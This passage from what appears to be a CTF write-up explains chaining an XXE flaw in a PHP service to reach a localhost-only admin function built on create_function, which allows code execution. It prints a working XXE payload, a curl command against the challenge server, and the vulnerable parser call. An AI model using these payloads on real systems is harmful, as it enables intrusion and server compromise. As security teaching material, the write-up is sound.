 ```php
}

``` 

That it's! the sort function uses the [create_function][4] method internally, the **create_function** method is very similar to the [eval][5] method, meaning if we can reach that part of the code, essentially we we can achieve [code execution][6] on the server 🙂 now the problem is how to do that since this function can only be called if the request is coming from localhost.

Remember the **Test** function accessible via the **/custom** path? that's our way in! this function receives some input and then parse it as XML, we can take advantage of this vulnerable parser and exploit a vulnerability called [XML External Entity (XXE) Processing][7] which essentially allow us to load remote (or internal) resources.

I'll explain this in the following example, on a command line we start by defining some variables so it's more easy to work.

```bash
 $ url='http://68.183.31.62:94/custom'
 $ xml_content='<?xml version="1.0" ?><!DOCTYPE root [<!ENTITY test SYSTEM "php://filter/convert.base64-encode/resource=https://www.alevsk.com">









]><root><name>&test</name></root>'
 $ curl –request POST –url "$url" –header 'cache-control: no-cache' –header 'content-type: application/xml' –data "$xml_content" | base64 -d 
``` 

In the second line we are defining our XML payload, we are try to load an external resource inside the **DOCTYPE** tag and we are saving the response on a “variable" called test (wrapped by root and name tags), then we are doing a post request to the vulnerable service, if you are wondering why do we need &test that's because our payload will be handled by:

```php
 $root = simplexml_load_string($string,'SimpleXMLElement',LIBXML_NOENT);
 $test = $root->name;
 echo $test; 
``` 

The **simplexml_load_string** is going to process our input and then return an object, that object is expected to have a name attribute which is stored in the $test variable and then printed to the user, we are essentially using this vulnerable service as a **proxy** 🙂

Now, instead of querying [https://www.alevsk.com][8] we are going to do a request to [http://68.183.31.62:94/admin?rss=SOME_URLℴ=PAYLOAD][9] and since the IP address of the server is the same IP of the client making the request (**localhost**) boom! we just bypass the admin validation and now can reach the vulnerable sort function in the **Admin controller**.


 [1]: https://ctf.fireshellsecurity.team/
 [2]: https://twitter.com/yovasx2
 [3]: https://www.imperva.com/Resources/Glossary/source-code-disclosure
 [4]: http://php.net/manual/es/function.create-function.php
 [5]: http://php.net/manual/en/function.eval.php
 [6]: https://en.wikipedia.org/wiki/Arbitrary_code_execution
 [7]: https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing
 [8]: https://www.alevsk.com/
 [9]: http://68.183.31.62:94/admin